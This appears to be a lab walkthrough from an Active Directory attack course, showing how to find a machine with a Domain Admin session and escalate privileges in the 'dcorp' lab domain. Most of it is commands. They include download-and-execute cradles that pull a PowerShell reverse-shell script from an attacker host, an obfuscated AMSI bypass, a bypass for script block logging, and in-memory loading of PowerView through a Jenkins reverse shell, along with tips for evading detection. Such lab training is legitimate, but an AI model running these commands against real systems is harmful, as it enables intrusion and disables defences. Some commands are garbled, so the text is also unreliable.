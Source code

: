 • Identify a machine in the target domain where a Domain Admin session is available.  
• Compromise the machine and escalate privileges to Domain Admin 
  − Using access to dcorp-ci 
  − Using derivative local admin 

**Solution**
We have access to two domain users - studentx and ciadmin and administrative access to dcorpadminsrv machine. User hunting has not been fruitful as studentx.  

## Enumeration using Invoke-SessionHunter:

We can use Invoke-SessionHunter.ps1 from the student VM to list sessions on all the remote machines. The script connects to Remtoe Registry service on remote machines that runs by default. Also, admin access is not required on the remote machines.  Use the following commands:
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
```
![image](https://github.com/user-attachments/assets/dd66cd99-aced-4d71-9f35-f468d2274ff7)

To make the above enumeration more opsec friendly and avoid triggering tools like MDI, we can query specific target machines. You need to create ‘servers.txt’ to use the below command: 

![image](https://github.com/user-attachments/assets/92984b3a-acdb-4cfa-9469-77e706683b40)

## Enumeration using PowerView:
We got a reverse shell on dcorp-ci as ciadmin by abusing Jenkins.  

We can use Powerview’s Find-DomainUserLocation on the reverse shell to looks for machines where a domain admin is logged in. First, we must bypass AMSI and enhanced logging.  

First bypass Enhanced Script Block Logging so that the AMSI bypass is not logged. We could also use these bypasses in the initial download-execute cradle that we used in Jenkins.  

The below command bypasses Enhanced Script Block Logging. Unfortuantely, we have no in-memory bypass for PowerShell transcripts. Note that we could also paste the contents of sbloggingbypass.txt in place of the download-exec cradle. Remember to host the sbloggingbypass.txt on a web server on the student VM if you use the download-exec cradle : 

```
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/InvokePowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
**PS C:\Users\Administrator\.jenkins\workspace\Projectx> iex (iwr http://172.16.100.x/sbloggingbypass.txt -UseBasicParsing)** 
PS C:\Users\Administrator\.jenkins\workspace\Projectx> iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/PowerView.ps1'))
PS C:\Users\Administrator\.jenkins\workspace\Projectx> FindDomainUserLocation
```
Use the below command to bypass AMSI: 

```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
Now, download and execute PowerView in memory of the reverse shell and run FindDomainUserLocation. Note that, Find-DomainUserLocation may take many minutes to check all the machines in the domain: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/PowerView.ps1'))
PS C:\Users\Administrator\.jenkins\workspace\Projectx> FindDomainUserLocation
```